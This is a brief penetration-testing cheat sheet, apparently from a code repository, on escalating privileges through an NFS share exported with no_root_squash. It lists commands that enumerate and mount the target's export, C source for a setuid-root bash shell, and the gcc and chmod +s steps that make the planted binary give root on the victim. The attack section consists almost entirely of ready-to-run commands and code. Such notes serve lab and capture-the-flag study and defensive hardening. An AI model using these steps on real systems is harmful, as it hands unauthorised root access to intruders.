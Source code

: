 # NFS no_root_squash
---------
If no root squash option is set on the nfs server, we can upload a file as root user and it will be stored with the root user permissions on the victim system.

```bash
showmount -e $IP
```

```bash
mount -t nfs $IP:/tmp/ /mnt/tmp -o nolock
```

```bash
mount -t nfs -o vers=3 "10.10.179.144:/tmp" "/mnt/tmp/"
```

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
gcc shell.c -o shell
```

```bash
chmod +s shell 
```